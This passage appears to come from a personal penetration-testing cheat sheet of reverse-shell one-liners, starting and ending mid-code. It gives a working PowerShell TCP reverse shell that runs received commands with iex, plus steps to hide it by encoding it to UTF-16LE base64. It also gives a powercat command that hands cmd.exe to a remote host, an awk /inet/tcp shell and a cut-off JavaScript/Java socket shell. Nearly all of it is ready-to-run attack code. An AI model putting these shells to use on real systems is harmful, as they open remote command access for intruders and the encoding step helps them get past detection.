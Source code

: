 ```powershell
    $stream.Flush();
}
$client.Close();
```

Alh4zr3d's obfuscate reverse shell is just this with the variables changed, save this to a .txt file alter variables where required
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

He then base64, lttle endians it: convert it to UTF-16LE, which the Windows Default encoding, encodes it to base64 then removes the newline .
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```



## Powercat
More Powercat related at [[Powercat-Cheatsheet]]
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

## Awk
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```


## Javascript
Replace `var cmd = 'powershell.exe'` for different shells
```js
String command = "var host = '10.10.10.10';" +
                       "var port = 9001;" +
                       "var cmd = '/bin/sh';"+
                       "var s = new java.net.Socket(host, port);" +
                       "var p = new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();"+
                       "var pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();"+
                       "var po = p.getOutputStream(), so = s.getOutputStream();"+
                       "print ('Connected');"+
                       "while (!s.isClosed()) {"+
                       "    while (pi.available() > 0)"+
                       "        so.write(pi.read());"+
                       "    while (pe.available() > 0)"+
                       "        so.write(pe.read());"+
                       "    while (si.available() > 0)"+
                       "        po.write(si.read());"+
                       "    so.flush();"+
                       "    po.flush();"+
                       "    java.lang.Thread.sleep(50);"+
                       "    try {"+
                       "        p.exitValue();"+
                       "        break;"+
                       "    }"+
```